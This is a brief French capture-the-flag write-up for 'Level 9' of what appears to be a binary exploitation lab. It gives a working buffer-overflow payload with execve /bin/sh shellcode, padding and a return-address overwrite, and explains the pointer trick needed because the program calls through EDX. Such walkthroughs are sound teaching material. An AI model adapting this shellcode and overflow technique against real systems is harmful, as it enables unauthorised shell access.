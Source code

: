 # Level 9

`python -c 'print"\x10\xa0\x04\x08\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 83 + "\x0c\xa0\x04\x08"' > /var/crash/test.txt`


`\x0c\xa0\x04\x08` = pointeur vers le début de notre shellcode --> `\x10\xa0\x04\x08\x6a\x0b....`

Le probleme c'est que quand ça call `EDX (main+152)`, il s'attend a trouver une addresse sur la quel jump, si on met un shellcode classique il va prendre les 4 premier char du shellcode et jump dessu ce qui donne une addresse invalide
Pour fix ça devant notre shellcode on a ajouté `x10\xa0\x04\x08` qui est l'addresse qui pointe sur le début de notre shellcode `(\x0c\xa0\x04\x08) + 4`

PS : ca marche pas quand on met l'addrese de esp (de la fonction ou y a le memcy) au début du shellcode (0xbffff680), car ça crée le probleme inverse cette fois
Le programme prend bffff680, jump dessus il trouve 0x0804a00c (le pointeur vers le début de notre shellcode) qu'il prend comme une instruction et ça pete.

Dans un cas on avais besoin d'un pointeur pour que le programme jump dessus
Dans le deuxieme on a un pointeur en trop qui est lu comme une instruction 